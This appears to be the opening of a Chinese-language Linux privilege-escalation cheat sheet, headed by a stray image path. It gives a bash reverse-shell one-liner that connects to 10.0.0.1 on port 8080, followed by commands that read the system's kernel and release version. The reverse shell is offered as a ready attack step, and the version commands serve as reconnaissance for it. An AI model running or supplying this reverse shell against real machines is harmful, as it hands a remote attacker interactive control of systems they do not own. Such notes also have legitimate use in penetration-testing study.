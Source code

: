 ### GUN Linux 提权笔记

##### Shell反弹
``` sh
$ bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
##### 查看系统版本

``` sh
$ uname -a
$ cat /etc/*-release
$ cat /etc/issue
```
